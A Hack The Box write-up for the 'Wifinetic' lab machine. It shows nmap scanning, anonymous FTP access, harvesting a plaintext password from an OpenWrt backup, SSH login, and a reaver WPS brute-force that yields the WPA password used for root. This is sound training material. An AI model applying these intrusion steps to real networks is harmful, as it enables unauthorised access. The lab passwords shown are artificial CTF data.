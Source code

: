 ```yaml
---
layout: post
title: Hack The Box - Wifinetic Writeup
date: 2024-07-20 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![valentineBadge.png](/assets/img/Wifinetic/wifineticBadge.png)

## Summary

By using anonymous login, I was able to access `ftp` server. There are several files listed there, so I downloaded them to my local machine for further inspection. Most interesting file is `backup-OpenWrt-2023-07-26.tar`. After extracting backup file, I got access to `/etc/` directory. By inspecting contents of files inside, I found valid credentials that allowed me to `ssh` into the system as user `netadmin`. While enumerating system as user `netadmin` I discovered wireless interfaces and used `iwconfig` to display more information about them. One of these interfaces, namely `mon0`, was in monitor mode. This can be exploited by doing WPS brute-force. To perform this attack we need wireless interface in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID, I used `iw dev` command. 
I was able to perform this attack using `reaver` tool, which was pre-installed on the system. A successful attack resulted in obtaining WPA password, which can be used to gain root access to the system.

## Reconnaissance

### Nmap

```
nmap -sV -sC -p- -oN ./nmapAll.txt --max-retries=1 10.10.11.247
```

```
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.13
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80, 443 |

#### Port 21

Anonymous access is allowed so I was able to log in. 

```
ftp anonymous@10.10.11.247
```

![ftp.png](/assets/img/Wifinetic/ftp.png)

By inspecting documents, I collected several usernames that could come in handy later.

```
HR Manager
samantha.wood93@wifinetic.htb
```

```
Oliver Walker
Wireless Network Administrator
olivia.walker17@wifinetic.htb
```

More interesting is `OpenWrt` backup file.
##### Backup archive 

After extracting `.tar` archive I was presented with these files:

![etc2.png](/assets/img/Wifinetic/etc2.png)

`passwd` file immediately caught my attention because it could contain valid accounts. We can see that there is only one account that looks interesting and it is `netadmin`. 

![etcPasswd.png](/assets/img/Wifinetic/etcPasswd.png)

By analyzing files in `/etc/config` directory, I found plaintext password in `wireless` file.  

![configWirteless2.png](/assets/img/Wifinetic/configWirteless2.png)

```
VeRyUniUqWiFIPasswrd1!
```

## Exploitation

### Initial Foothold

The credentials discovered during the enumeration phase are valid for `SSH` access to the system. 

```
netadmin : VeRyUniUqWiFIPasswrd1!
```

![sshLogin.png](/assets/img/Wifinetic/sshLogin.png)

## Post Exploitation

### Information Gathering

I used `ip` command to display all network interfaces which revealed multiple wireless interfaces.

```
ip addr
```

![ipaddr.png](/assets/img/Wifinetic/ipaddr.png)

I used `iwconfig` to display more information related to wireless interfaces. 

```
iwconfig
```

![iwconfig.png](/assets/img/Wifinetic/iwconfig.png)

It is worth noting that the `mon0` interface is in monitor mode. Monitor mode allows `wifi` interface to monitor all traffic on the wireless network. 

### Privilege Escalation

#### WPS Bruteforce

To perform this attack, I used tool called `reaver` which was already installed on system. In order to successfully perform this attack we need few things. First we need to specify interface which is in monitoring mode (`mon0`) and BSSID of the Access Point. To obtain BSSID, I used `iw dev` command.

```
iw dev
```

![iwdev2.png](/assets/img/Wifinetic/iwdev2.png)

Now with all information needed we can perform the attack.

```
reaver -i mon0 -b 02:00:00:00:00:00
```

![reaver.png](/assets/img/Wifinetic/reaver.png)

Attack was successful and I obtained WPA password.

```
WhatIsRealAnDWhAtIsNot51121!
```

This password can be used to get root access to the system. 

![escalation.png](/assets/img/Wifinetic/escalation.png)

### Root Flag

![rootFlag.png](/assets/img/Wifinetic/rootFlag.png)